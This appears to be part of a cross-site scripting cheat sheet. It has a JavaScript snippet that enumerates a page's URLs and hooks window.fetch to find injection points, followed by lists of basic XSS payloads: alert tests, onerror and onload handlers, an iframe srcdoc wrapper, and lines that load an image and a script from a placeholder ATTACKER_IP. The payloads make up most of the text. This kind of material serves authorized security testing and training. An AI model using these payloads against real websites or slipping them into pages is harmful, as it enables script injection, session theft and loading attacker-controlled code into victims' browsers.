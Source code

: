 **Extract all URLs from page:**
```javascript
// Find all URLs that might be injection points
const urls = new Set();

// From links
document.querySelectorAll('a[href]').forEach(a => urls.add(a.href));

// From forms
document.querySelectorAll('form[action]').forEach(f => urls.add(f.action));

// From scripts
document.querySelectorAll('script[src]').forEach(s => urls.add(s.src));

// From AJAX calls (intercept fetch)
const originalFetch = window.fetch;
window.fetch = function(...args) {
    console.log('[*] Fetch to:', args[0]);
    urls.add(args[0]);
    return originalFetch.apply(this, args);
};

console.log('URLs found:', Array.from(urls));
```

---

## Basic Payloads

### Simple Alert Test
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<body onload=alert('XSS')>
```

### Ping Attacker Server
```html
<img src="http://ATTACKER_IP/ping.png" />
<script src="http://ATTACKER_IP/script.js"></script>
```

### Execute Arbitrary JavaScript
```html
<img src=x onerror="PAYLOAD_HERE" />
<svg onload="PAYLOAD_HERE">
<iframe srcdoc="<script>PAYLOAD_HERE</script>">
```

---
